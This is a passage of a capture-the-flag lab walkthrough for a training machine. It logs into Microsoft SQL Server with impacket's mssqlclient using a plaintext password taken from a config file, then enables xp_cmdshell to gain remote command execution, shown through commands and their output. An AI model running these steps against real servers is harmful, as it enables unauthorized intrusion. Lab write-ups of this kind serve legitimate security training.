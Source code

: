 ## Foothold
### mssqlclient

The file contains some credentials which we will use with the impacket mssqlclient, if you use Kali Linux you can get it from ```/usr/share/doc/python3-impacket/examples/mssqlclient.py``` or you can download it from its [github](https://github.com/SecureAuthCorp/impacket) repo with:
```shell
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/mssqlclient.py
```
or with Kali Linux:
```shell
cp /usr/share/doc/python3-impacket/examples/mssqlclient.py .
When you have mss, start session to the server with the credentials obtained in prod.dtsConfig with:
```shell
kyb3r@cipher:~$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

Password: M3g4c0rp123
Impacket - Copyright SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```
![mssqlclient](mssqlclient.png)

### xp_cmdshell
Now we will enable xp_cmdshell ("Spawns a Windows command shell and passes in a string for execution") to gain Remote Command Execution (RCE) with the following commands/codes:
```sql
EXEC sp_configure ‘Show Advanced Options’, 1;
reconfigure;
sp_configure;
EXEC sp_configure ‘xp_cmdshell’, 1
reconfigure;
xp_cmdshell “whoami”
```
When the SQL console returns, it means that we have done it correctly:
```sql
SQL> xp_cmdshell “whoami”
output

---------------------------

archetype\sql_svc

NULL

```